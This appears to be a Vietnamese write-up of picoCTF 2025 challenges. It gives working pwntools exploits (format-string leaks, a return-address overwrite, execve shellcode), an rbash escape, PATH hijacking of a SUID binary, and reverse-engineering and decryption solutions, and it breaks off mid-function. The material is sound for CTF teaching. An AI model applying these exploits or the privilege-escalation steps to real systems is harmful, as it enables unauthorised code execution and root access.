# Binary Exploitation

## hash-only-2

### Challenge Description



### Analysis + Solution

File của bài này vẫn là `flaghasher` giống như `hash-only-2`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  __int64 v4; // rax
  const char *command; // rax
  __int64 envp_1; // rdx
  __int64 v7; // rax
  __int64 v8; // rax
  int v9; // ebx
  char v11; // [rsp+Bh] [rbp-45h] BYREF
  unsigned int v12; // [rsp+Ch] [rbp-44h]
  _BYTE v13[40]; // [rsp+10h] [rbp-40h] BYREF
  unsigned __int64 v14; // [rsp+38h] [rbp-18h]

  v14 = __readfsqword(0x28u);
  v3 = std::operator<<<std::char_traits<char>>(&std::cout, "Computing the MD5 hash of /root/flag.txt.... ", envp);
  v4 = std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
  std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
  sleep(2u);
  std::allocator<char>::allocator(&v11);
  std::string::basic_string(v13, "/bin/bash -c 'md5sum /root/flag.txt'", &v11);
  std::allocator<char>::~allocator(&v11);
  setgid(0);
  setuid(0);
  command = (const char *)std::string::c_str(v13);
  v12 = system(command);
  if ( v12 )
  {
    v7 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: system() call returned non-zero value: ", envp_1);
    v8 = std::ostream::operator<<(v7, v12);
    std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
    v9 = 1;
  }
  else
  {
    v9 = 0;
  }
  std::string::~string(v13);
  return v9;
}
```

Như ta có thể thấy, binary sẽ thực hiện một số thao tác đơn giản như sau:

- In ra màn hình `Computing the MD5 hash of /root/flag.txt....`
- Và sau đó thực thi lệnh `md5sum`: `/bin/bash -c 'md5sum /root/flag.txt'`

Điều đặc biệt ở đây ta có thể thấy là command mà nó thực hiện là `md5sum`, và đây không phải là `absolute path`, nên khi `Linux` thực thi lệnh đó trước tiên nó sẽ nhìn vào biến `PATH` của chúng ta để xác định được `PATH` command mà ta thực hiện nằm ở đâu, sau đó mới thực hiện. Chính vì thế ta có thể lợi dụng điều này để điều hướng luồng thực thi command đó (thay vì `/usr/bin/md5sum` ta có thể cho nó thành `/home/user/md5sum`), và vì binary của challenge có quyền `SUID`, nên khi thực hiện nó sẽ thực hiện với quyền của `root`, vì thế ta có thể dễ dàng có được flag ở `/root/flag.txt`.

Tuy nhiên đối với bài này, shell nó sử dụng không phải là các shell thông thường của chúng ta như `zsh, bash` mà lại là `rbash` tức là đã có sự hạn chế một số lệnh mà ta có thể chạy được. Vậy trước hết ta cần tìm cách `escape` `rbash` trước


```sh
ctf-player@pico-chall$ echo $0
-rbash
ctf-player@pico-chall$ compgen -c
if
then
else
elif
fi
case
<...>
python3
<...>
```

`compgen -c` là command dùng để check các lệnh có thể chạy được ở shell đang dùng hiện tại, và ta thấy rằng `python3` được phép chạy trong đó. Và từ việc đọc thêm tại [đây](https://0xffsec.com/handbook/shells/full-tty/), ta có thể biết được cách dùng python3 để spawn một bash shell thông qua lệnh

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```sh
ctf-player@pico-chall$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ctf-player@challenge:~$ echo $0
/bin/bash
```

Sau đó ta cần tìm thêm các file `SUID` trong chương trình do ta chưa biết `flashhasher` nằm ở đâu. Ta có thể dùng:

```sh
find / -perm /4000
```

```sh
ctf-player@challenge:~$ find / -perm /4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/local/bin/flaghasher
```

Và lúc này việc ta cần làm là như `hash-only-1` là điều hướng luồng thực thi của nó mà thôi

```sh
ctf-player@challenge:~$ echo "cat /root/flag.txt > a.txt"  > md5sum       # fake md5sum
ctf-player@challenge:~$ export PATH=/home/ctf-player:$PATH                # add path hiện tại vào $PATH
ctf-player@challenge:~$ chmod +x md5sum                                   # cấp quyền execute cho md5sum
ctf-player@challenge:~$ /usr/local/bin/flaghasher                         # chạy file binary
Computing the MD5 hash of /root/flag.txt....

ctf-player@challenge:~$ ls
a.txt  md5sum
ctf-player@challenge:~$ cat a.txt                                         # Read flag
picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_1a74f5fd}
```


## PIE TIME 2

### Challenge Description



### Analysis

```sh
[*] '/home/alter/CTFs/2025/PicoCTF/pwn/PIE_TIME2/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

Từ source code trên mình sẽ chú yếu phân tích 2 hàm `win` và `call_functions`. Trong đó hàm `win` sẽ làm một hàm `ẩn` do không được call, và hàm `call_functions` sẽ là hàm được `main` call và sẽ là hàm thực hiện các chức năng chính của chương trình. Ta sẽ đi vào phân tích hàm `call_functions` trước

```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Nhìn sơ qua thì hàm có lỗi `Format String` do `printf(buffer)` gây ra, dữ liệu đầu vào được nhập tại `buffer` và chính vì thế ta có thể kiểm soát các `format specifer` giúp ta leak những địa chỉ mà ta muốn. Và vẫn như `PIE TIME 1` ở bài này nó sẽ thực thi địa chỉ mà ta chỉ định trong biến `val`

```c
  void (*foo)(void) = (void (*)())val;
  foo();
```

Đối với bài này, ta không được leak sẵn như `PIE TIME 1` nên ta cần phải tự làm, bằng việc sử dụng format `%p` ta có thể dễ dàng leak địa chỉ tại bất cứ đâu mà ta muốn. Để tìm được offset địa chỉ mà ta muốn leak, mình sẽ cho chương trình dừng tại hàm `printf` có lỗi `Format String`, sau đó tính toán offset



Và hãy cho rằng địa chỉ mà mình muốn leak là nằm ở `rbp+0x8` tức là `saved rip` của hàm `call_functions`, tại đây ta có thể thấy đó là địa chỉ của hàm `main`
Việc ta cần làm là dùng công thức sau để tính toán

```
offset = ([address muốn leak] - [address tại rsp (top stack)])/8 + 6
```

Và mình tính ra được offset tại đó là `19` lúc này ta chỉ cần sử dụng short form `%<offset>$p` để leak. Sau khi leak được địa chỉ tại main ta sẽ tính toán địa chỉ `base` và sau đó truyền địa chỉ của hàm `win`

### Solution

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./vuln', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

b*call_functions+80
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

def exploit():

    pl = b'%19$p'
    p.sendlineafter(b'name:', pl)

    exe.address = int(p.recvline()[:-1], 16) - 0x1441
    print(hex(exe.address))

    p.sendlineafter(b': ', hex(exe.sym.win+24))

    p.interactive()

if __name__ == '__main__':
    exploit()
```

## Echo Valley

### Challenge Description



### Note

Trước khi đọc write up challenge này ta cần biết khái niệm về `Format String` là gì để đọc không bị rối, ta có thể xem tại đây:

- [Source 1](https://youtu.be/b8GMf5kM2LU?si=n36HC2LxF8sdEnum)
- [Source 2](https://ir0nstone.gitbook.io/notes/binexp/stack/format-string)

### Analysis

```sh
[*] '/home/alter/CTFs/2025/PicoCTF/pwn/Echo_Valley/valley'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }

    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        fgets(buf, sizeof(buf), stdin);

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}

int main()
{
    echo_valley();
    return 0;
}
```

Source code bài này khá đơn giản không có gì quá đặc biệt ngoài một lỗi `Format String` trong hàm `echo_valley`. Trong hàm này nó sẽ chạy một `infinity` loop, cho phép ta thực hiện các chức năng của hàm và chỉ `break` ra khi ta nhập `exit`. Ý tưởng thì vẫn như các bài trước ta vẫn sẽ leak và tính toán các địa chỉ cần thiết như là `elf base`, `stack address` ...

### Solution

Cách leak tương tự như `PIE TIME 2`, mình sẽ sử dụng short form của `%p` để leak địa chỉ và bài này idea của mình sẽ là leak và tính toán địa chỉ `elf base` và `stack` sau đó dùng format string payload để đặt địa chỉ của `print_flag` và `saved rip`. Làm như vậy thì sau khi ta nhập `exit`, loop được `break` ra hàm `echo_valley` thay vì return vào `main` nó sẽ return vào `printf_flag`

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./valley', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

b *echo_valley+201
b *echo_valley+219
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

def exploit():

    p.sendline(b'%20$p')

    p.recvuntil(b'distance: ')
    stack = int(rl()[:-1], 16)
    log.info('Stack: ' +  hex(stack))

    p.sendline(b'%21$p')
    p.recvuntil(b'distance: ')
    leak = int(p.recvline()[:-1], 16)
    exe.address = leak - 0x1413
    log.info('Elf base: ' + hex(exe.address))

    offset = 6
    write = {
        stack - 8: exe.sym.print_flag + 5
    }

    pl = fmtstr_payload(offset, write, write_size='short')
    # print(pl)
    p.sendline(pl)

    p.sendline(b'exit')

    p.interactive()

if __name__ == '__main__':
    exploit()
```

Trong exploit trên mình tin chọn 2 địa chỉ uy tín nhất và khá ít khi thay đổi đó là `saved rip` và `saved rbp`, từ đó mình leak được địa chỉ của `main` và `stack`, việc ta làm là dùng `fmtstr_payload` để write `saved rip` thành địa chỉ `print_flag`. **Lưu ý:** Offset trong `fmtstr_payload` là `offset` tính từ `top stack` đến `input`. Và khi ta `debug` ta thấy input của ta được đặt tại `rsp` tức `top stack` luôn nên offset sẽ là `6`. Còn tại sao nó là 6 thì hãy xem video

## handoff

### Challenge Description



### Analysis

```sh
[*] '/home/alter/CTFs/2025/PicoCTF/pwn/handoff/handoff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>

#define MAX_ENTRIES 10
#define NAME_LEN 32
#define MSG_LEN 64

typedef struct entry {
	char name[8];
	char msg[64];
} entry_t;

void print_menu() {
	puts("What option would you like to do?");
	puts("1. Add a new recipient");
	puts("2. Send a message to a recipient");
	puts("3. Exit the app");
}

int vuln() {
	char feedback[8];
	entry_t entries[10];
	int total_entries = 0;
	int choice = -1;
	// Have a menu that allows the user to write whatever they want to a set buffer elsewhere in memory
	while (true) {
		print_menu();
		if (scanf("%d", &choice) != 1) exit(0);
		getchar(); // Remove trailing \n

		// Add entry
		if (choice == 1) {
			choice = -1;
			// Check for max entries
			if (total_entries >= MAX_ENTRIES) {
				puts("Max recipients reached!");
				continue;
			}

			// Add a new entry
			puts("What's the new recipient's name: ");
			fflush(stdin);
			fgets(entries[total_entries].name, NAME_LEN, stdin);
			total_entries++;

		}
		// Add message
		else if (choice == 2) {
			choice = -1;
			puts("Which recipient would you like to send a message to?");
			if (scanf("%d", &choice) != 1) exit(0);
			getchar();

			if (choice >= total_entries) {
				puts("Invalid entry number");
				continue;
			}

			puts("What message would you like to send them?");
			fgets(entries[choice].msg, MSG_LEN, stdin);
		}
		else if (choice == 3) {
			choice = -1;
			puts("Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: ");
			fgets(feedback, NAME_LEN, stdin);
			feedback[7] = '\0';
			break;
		}
		else {
			choice = -1;
			puts("Invalid option");
		}
	}
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);  // No buffering (immediate output)
	vuln();
	return 0;
}
```

Đây là một bài khá khó, và ý tưởng ban đầu của mình là tìm cách để thực thi `shellcode` do Stack thực thi được. Nhìn vào hàm `vuln` ta sẽ thấy nó chạy một vòng lặp vô hạn và cho ta chọn các options

- Đối với option 1, input của ta sẽ được lưu vào `entries[total_entries].name`. Với:
  - `entries` là một mảng gồm 10 structs `entry_t entries[10]`
  - `name` là phần tử trong struct `entry_t` struct
  - `total_entries` sẽ là `index` của mảng struct đó
- Đối với option 2, option này chỉ cho phép ta sử dụng hàm `fgets` khi `choice >= total_entries`. Và input khi ta nhập bằng `fgets` sẽ đi vào `entries[choice].msg`. Với:
  - `entries` là một mảng gồm 10 structs `entry_t entries[10]`
  - `msg` là phần tử trong struct `entry_t`
  - `choice` là `option` mà ta lựa chọn (ở đây choice là 2), và cũng biểu thị cho `index` của mảng `entries`
- Đối với option 3, input sẽ được nhập vào `feedback[8]`, và dữ liệu của ta có thể nhập liên đến `32` bytes nên tại option này sẽ có lỗi `Buffer Overflow`

Vậy tóm lại:

- Option 2 được phép nhập `64` bytes -> Sẽ phù hợp để ta đặt `shellcode` chính của ta vào đây
- Option 3 sẽ có lỗi `Buffer Overflow` nên ta sẽ setup dữ liệu tại đây để nó nhảy vào `shellcode` ta đặt ở option 2
- Option 1 sẽ là nơi ta đặt padding và dùng để làm điều kiện cho ta sử dụng option 2

### Solution

Khi debug ta sẽ thấy được, dữ liệu được mà hàm `fgets` trả về sau khi thực thi sẽ là chuỗi input của ta và nó được đặt tại `RAX`



Điều này này mình một ý tưởng là sử dụng gadget `jmp/call rax` để thực thi `shellcode` tại option 3 (vì shellcode tại đây sẽ là shellcode setup cho việc thực thi shellcode chính của ta tại option 2 và nó cũng có lỗi ` Buffer Overflow` nên sẽ dễ dàng kiểm soát được `saved rip` và điều hướng chương trình sau khi return sẽ thực thi gadget `jmp/call rax`)

Và đây là exploit của mình:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./handoff', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

# b *vuln+62
b *0x000000000040140e
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

def exploit():

    jmp_rax = 0x000000000040116c


    sc = asm("""
    sc:
            nop
            nop
            nop
            xor rdi, rdi
            lea rdi, [rip+bin_sh]
            nop
            nop
            nop
            nop
            xor rsi, rsi
            xor rdx, rdx
            mov eax, 0x3b
            syscall
            nop
            nop
            nop

    bin_sh:
            .ascii "/bin/sh"
            .byte 0
    """, arch='amd64')

    sc2 = asm ("""
            nop
            nop
            sub rsp, 0x2e4
            nop
            jmp rsp
             """)


    sla(b'\n', b'1')
    sla(b'\n', b'A'*8)

    sla(b'\n', b'2')
    sla(b'\n', b'0')
    sla(b'\n', sc)

    sla(b'\n', b'3')
    offset = 20
    payload = sc2.ljust(offset, b'\x90') + p64(jmp_rax)
    sla(b'\n', payload)

    interactive()

if __name__ == '__main__':
    exploit()
```

Để tính toán đúng offset ta cần để `sub rsp, 0x2e4` ta sẽ dựa vào padding tại option 1 là `A * 8` từ đó tính offset tại address hiện tại đến đó. Mình sẽ không giải thích ở đây quá nhiều vì nó đòi hỏi khả năng debug và chỉnh sửa payload liên tục. Và lý do tại sao 2 shellcode lại có nhiều `nop` đến thế thì đơn giản nó chỉ là padding để `shellcode` thực thi đúng với những gì mình mong muốn, Vì lúc đặt shellcode không có `nop` lên thì ta sẽ nhận thấy rằng sẽ có một số `instruction` không mong muốn bị chèn vào đó.

Bên cạnh đó ta còn có thể sử dụng thêm một cách chỉ dùng duy nhất một shellcode. Cách này ta sẽ sử dụng `option 1` như là nơi chứa chuỗi `/bin/sh` của ta và option 3 sẽ là nơi thực thi shellcode

```py
#!/usr/bin/python3

from pwn import *
from time import sleep

context.binary = exe = ELF('./handoff',checksec=False)
context.arch = 'amd64'
#p = process()
p = remote('shape-facility.picoctf.net', 52705)

# input()
jmp_rax  = 0x000000000040116c
pop_rdi = 0x00000000004014b3

for i in range(9):
    p.sendline(b'1')
    p.sendline(b'A')

p.sendline(b'1')
payload = b'/bin/sh\x00'
p.sendline(payload)
# input()
sleep(0.5)
p.sendline(b'3')

shellcode = asm('''
xchg rax,rdi
mov rax,0x3b
nop
sub rdi,0x4c
xor esi,esi
xor edx,edx
syscall
                ''')
print(len(shellcode))
p.sendline(shellcode + p64(jmp_rax))

p.interactive()
```

# Reverse Engineering

## Binary Instrumentation 1

### Challenge Description



### Solution

Mặc dù hint của đề bài là sử dụng `frida` nhưng mình không biết sử dụng nó nên mình đã sử dụng `debug` để solve bài này



```c
__int64 start()
{
  struct _PEB *v0; // rbx
  HANDLE ProcessHeap; // rax
  void *v2; // rdi
  HANDLE hHeap; // rax
  __int64 v4; // rdi
  int *ImageBaseAddress; // rbp
  __int64 v6; // rsi
  char *i; // rbx
  __int64 v9; // rdi
  __int64 v10; // rbx
  char *v11; // rdi
  __int64 v12; // [rsp+50h] [rbp+8h] BYREF
  __int64 v13; // [rsp+58h] [rbp+10h] BYREF

  v0 = NtCurrentPeb();
  ProcessHeap = GetProcessHeap();
  v2 = HeapAlloc(ProcessHeap, 8u, 0x400uLL);
  if ( GetLastError() == 13852 )
  {
    ReleaseSRWLockExclusive(0LL);
    ReleaseSRWLockShared(0LL);
    SetCriticalSectionSpinCount(0LL, 0);
    TryAcquireSRWLockExclusive(0LL);
    WakeAllConditionVariable(0LL);
    SetUnhandledExceptionFilter(0LL);
    UnhandledExceptionFilter(0LL);
    CheckMenuItem(0LL, 0, 0);
    GetMenu(0LL);
    GetSystemMenu(0LL, 0);
    GetMenuItemID(0LL, 0);
    EnableMenuItem(0LL, 0, 0);
    MessageBeep(0);
    GetLastError();
    MessageBoxW(0LL, 0LL, 0LL, 0);
    MessageBoxA(0LL, 0LL, 0LL, 0);
    UpdateWindow(0LL);
    GetWindowContextHelpId(0LL);
  }
  else
  {
    hHeap = GetProcessHeap();
    HeapFree(hHeap, 0, v2);
  }
  if ( !v0 || v0->OSMajorVersion != 10 )
    return 0xFFFFFFFFLL;
  v4 = 0LL;
  v13 = 0LL;
  v12 = 0LL;
  ImageBaseAddress = (int *)v0->ImageBaseAddress;
  v6 = ImageBaseAddress[15];
  for ( i = (char *)ImageBaseAddress + v6 + 264; (unsigned int)sub_1400014B0(i) != -1622013139; i += 40 )
  {
    if ( ++v4 > (unsigned __int64)*(unsigned __int16 *)((char *)ImageBaseAddress + v6 + 6) )
      return 0xFFFFFFFFLL;
  }
  v9 = *((unsigned int *)i + 3);
  v10 = *((unsigned int *)i + 4);
  v11 = (char *)ImageBaseAddress + v9;
  if ( !v11
    || !v10
    || !(unsigned int)sub_1400018B0()
    || (unsigned int)sub_140001300(1, (_DWORD)v11, v10, (unsigned int)&v13, (__int64)&v12) )
  {
    return 0xFFFFFFFFLL;
  }
  sub_140001DC0(v13, v12, 1LL);
  return 0LL;
}
```

Chương trình khá nhiều và phức tạp sau khi xem các hàm thì mình nhận thấy trong `sub_140001DC0` có một hàm `v35` ẩn và hàm này chưa được gọi nên nó không xuất hiện trên bảng `function` của IDA. Và mặc dù `Dectect it Easy` cho ta biết file được `packed` bằng `AtomPePacker`, nhưng sau khi phân tích chương trình thì mình thấy chương trình giống như tự `packed` chính nó hơn. Và việc ta cần làm là debug xem khi chương trình gọi hàm `v35` thì nó sẽ làm gì. Nhảy vào hàm `sub_140001DC0` và đặt breakpoint tại nơi nó call `v35()`



Sau đó chọn `debugger` là `Local Windows Debugger`



Và bắt đầu debug (F7 là `step into`, F8 là `step over`). Trước hết ta cần bấm F7 (`step into`), để nhảy vào `v35`, sau đó F8 `step over` các lệnh và xem sự thay đổi của chương trình



Ta thấy tại `0x0000001400018FB`, nó sẽ in ra một vài đoạn `text` cho ta, và sau đó `sleep` một thời gian khá dài, điều này chứng tỏ sau đoạn sleep dài đó có thể là những câu lệnh để in ra flag và mình đã exit chương trình và đặt breakpoint tại đó, chạy lại và nhảy vào đó. Và đúng như mình nghĩ ở cuối hàm sẽ là một đoạn `base64` và khi decode thì đó là flag






## Binary Instrumentation 2

### Challenge Description



### Solution

Tương tự như bài trước thì bài này mình cũng sẽ debug, nhưng lần này mình sẽ dùng `x64dbg` để debug để dễ dàng xem các thay đổi thanh ghi hơn, vì khi mình chạy chương trình tới một đoạn nào đó trong hàm chứa hàm `v35` thì nó sẽ tự exit luôn nên mình muốn xem xem nó có sự thay đổi gì trong thanh ghi hay không

Trước tiên ta cần đồng bộ address của `x64dbg` với `IDA`

Trong `x64dbg`: tab `Memory Map` -> tìm address của `bininst2.exe` -> Chuột phải -> Tìm phần copy -> Chọn address
Trong `IDA`: tab `Edit` -> `Segment` -> tìm `Rebase program` -> Paste address đã copy được trong `x64dbg` -> Enter

Breakpoint lần này mình đặt sẽ có chút khác vì mình sẽ muốn xem sự thay đổi dữ liệu trong hàm `sub_7FF7CFE51DC0` là hàm có `v35` nên mình sẽ đặt breakpoint tại đầu hàm này

Copy địa chỉ của `instruction` đầu tiên của hàm `00007FF7CFE51E0F` sau đó sang `x64dbg`. `ctrl + G`, paste địa chỉ đó vào và enter để đến đó. Và cuối cùng ta sẽ đặt breakpoint và chạy debugger và debug từ từ (trong lúc debug cần quan sát kĩ sự thay đổi của các register)


Và khi ta `step over` đến một lúc nào đó, ta sẽ thấy tại `r14` có sự xuất hiện của string `PE` khá là đáng nghi nên ta cần dump ra xem thử



Xem hex-dump một xíu thì ta nhận thấy có một đoạn `base64` trong đó và nó nằm dưới phần `<Insert part here>`





## Quantum Scrambler

### Challenge Description



### Solution

```py
import sys

def exit():
  sys.exit(0)

def scramble(L):
  A = L
  i = 2
  while (i < len(A)):
    A[i-2] += A.pop(i-1)
    A[i-1].append(A[:i-2])
    i += 1

  return L

def get_flag():
  flag = open('flag.txt', 'r').read()
  flag = flag.strip()
  hex_flag = []
  for c in flag:
    hex_flag.append([str(hex(ord(c)))])

  return hex_flag

def main():
  flag = get_flag()
  cypher = scramble(flag)
  print(cypher)

if __name__ == '__main__':
  main()
```

Chương trình sẽ thực hiện dùng hàm `scramble` để xáo trộn `flag.txt` và in ra cyber đã bị xáo trộn. Việc ta cần làm là viết một chương trình để unscramble output mà khi ta kết nốt với instance đưa ra và in ra flag

```py
import ast

def unscramble(L):
    i = len(L)
    while i > 2:
        L[i - 1].pop()
        split_point = len(L[i - 2]) - len(L[i - 1])
        L.insert(i - 1, L[i - 2][split_point:])
        L[i - 2] = L[i - 2][:split_point]
        i -= 1
    return L

def get_hex(L):
    res = []
    for i in L:
        # print(L)
        # print(i)
        for j in i:
            # print(j)
            if j:
                res.append(int(j,16))

    return res

enc = ast.literal_eval(open("output.txt").read())
orig = unscramble(enc)
# print(enc)
# print(orig)

flag = get_hex(orig)
print(bytes(flag))
```

## Tap into Hash

### Challenge Description



### Solution

```py
import time
import base64
import hashlib
import sys
import secrets


class Block:
    def __init__(self, index, previous_hash, timestamp, encoded_transactions, nonce):
        self.index = index
        self.previous_hash = previous_hash
        self.timestamp = timestamp
        self.encoded_transactions = encoded_transactions
        self.nonce = nonce

    def calculate_hash(self):
        block_string = f"{self.index}{self.previous_hash}{self.timestamp}{self.encoded_transactions}{self.nonce}"
        return hashlib.sha256(block_string.encode()).hexdigest()


def proof_of_work(previous_block, encoded_transactions):
    index = previous_block.index + 1
    timestamp = int(time.time())
    nonce = 0

    block = Block(index, previous_block.calculate_hash(),
                  timestamp, encoded_transactions, nonce)

    while not is_valid_proof(block):
        nonce += 1
        block.nonce = nonce

    return block


def is_valid_proof(block):
    guess_hash = block.calculate_hash()
    return guess_hash[:2] == "00"


def decode_transactions(encoded_transactions):
    return base64.b64decode(encoded_transactions).decode('utf-8')


def get_all_blocks(blockchain):
    return blockchain


def blockchain_to_string(blockchain):
    block_strings = [f"{block.calculate_hash()}" for block in blockchain]
    return '-'.join(block_strings)


def encrypt(plaintext, inner_txt, key):
    midpoint = len(plaintext) // 2

    first_part = plaintext[:midpoint]
    second_part = plaintext[midpoint:]
    modified_plaintext = first_part + inner_txt + second_part
    block_size = 16
    plaintext = pad(modified_plaintext, block_size)
    key_hash = hashlib.sha256(key).digest()

    ciphertext = b''

    for i in range(0, len(plaintext), block_size):
        block = plaintext[i:i + block_size]
        cipher_block = xor_bytes(block, key_hash)
        ciphertext += cipher_block

    return ciphertext


def pad(data, block_size):
    padding_length = block_size - len(data) % block_size
    padding = bytes([padding_length] * padding_length)
    return data.encode() + padding


def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))


def generate_random_string(length):
    return secrets.token_hex(length // 2)


random_string = generate_random_string(64)


def main(token):
    key = bytes.fromhex(random_string)

    print("Key:", key)

    genesis_block = Block(0, "0", int(time.time()), "EncodedGenesisBlock", 0)
    blockchain = [genesis_block]

    for i in range(1, 5):
        encoded_transactions = base64.b64encode(
            f"Transaction_{i}".encode()).decode('utf-8')
        new_block = proof_of_work(blockchain[-1], encoded_transactions)
        blockchain.append(new_block)

    all_blocks = get_all_blocks(blockchain)

    blockchain_string = blockchain_to_string(all_blocks)
    encrypted_blockchain = encrypt(blockchain_string, token, key)

    print("Encrypted Blockchain:", encrypted_blockchain)


if __name__ == "__main__":
    text = sys.argv[1]
    main(text)
```

Như source đã cho thì chương trình mô phỏng một hế thống `Block Chain` đơn giản. Và việc ta cần làm là dựa vào chương trình đó viết lại mã decrypt

```py
import hashlib
import re

def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))

def decrypt(ciphertext, key):
    block_size = 16
    key_hash = hashlib.sha256(key).digest()
    plaintext = b''

    for i in range(0, len(ciphertext), block_size):
        cipher_block = ciphertext[i:i + block_size]
        plain_block = xor_bytes(cipher_block, key_hash)
        plaintext += plain_block

    # Remove padding
    padding_length = plaintext[-1]
    return plaintext[:-padding_length].decode('utf-8')

def extract_token(decrypted_text):

    flag_pattern = re.compile(r'[A-Z_]+{[^}]+}')
    matches = flag_pattern.findall(decrypted_text)
    if matches:
        return matches[0]

    parts = decrypted_text.split('-')
    for i, part in enumerate(parts):
        # Check if this part doesn't look like a valid hash (64 hex chars)
        if len(part) != 64 or any(c not in '0123456789abcdef' for c in part):
            return f"Anomaly found in part {i}: {part}"

    # If we can't find it by parsing, check around the middle where it was inserted
    midpoint = len(decrypted_text) // 2

    # Look around the midpoint for patterns that don't look like blockchain hashes
    for offset in range(-100, 100):
        pos = midpoint + offset
        if pos > 0 and pos < len(decrypted_text) - 20:
            # Look for characters that wouldn't be in a hexadecimal hash
            for i in range(pos, min(pos+50, len(decrypted_text))):
